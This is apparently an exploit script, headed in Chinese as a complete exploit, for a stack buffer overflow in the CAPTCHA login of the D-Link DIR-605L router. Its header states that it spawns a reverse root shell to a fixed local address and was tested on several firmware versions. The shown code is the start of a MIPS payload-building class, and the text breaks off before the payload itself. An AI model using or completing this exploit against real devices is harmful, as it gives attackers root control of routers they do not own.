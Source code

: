 ### 完整exp
```
#!/usr/bin/env python
#####################################################################################
# Exploit for the DIR-605L CAPTCHA login stack based buffer overflow
#vulnerability. # Spawns a reverse root shell to 192.168.1.100 on port
#8080. # Tested against firmware versions 1.10, 1.12 and 1.13. # #
### 06-October-2012
#####################################################################################
 
import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
 
class MIPSPayload:
    BADBYTES = [0x00]
    LITTLE = "little"
    BIG = "big"
    FILLER = "A"
    BYTES = 4
 
    def __init__(self, libase=0, endianess=LITTLE, badbytes=BADBYTES):
        self.libase = libase
        self.shellcode = ""
        self.endianess = endianess
        self.badbytes = badbytes
 
    def rand_text(self, size):
        str = ''
        chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
        length = len(chars) - 1
        random = Random()
        for i in range(size):
            str += chars[random.randint(0,length)]
        return str
 
    def Add(self, data):
        self.shellcode += data
 
    def Address(self, offset, base=None):
        if base is None:
            base = self.libase
        return self.ToString(base + offset)
 
    def AddAddress(self, offset, base=None):
        self.Add(self.Address(offset, base))
 
    def AddBuffer(self, size, byte=FILLER):
        self.Add(byte * size)
 
    def AddNops(self, size):
        if self.endianess == self.LITTLE:
            self.Add(self.rand_text(size))
        else:
            self.Add(self.rand_text(size))
 
    def ToString(self, value, size=BYTES):
        data = ""
        for i in range(0, size):
            data += chr((value >> (8*i)) & 0xFF)
```
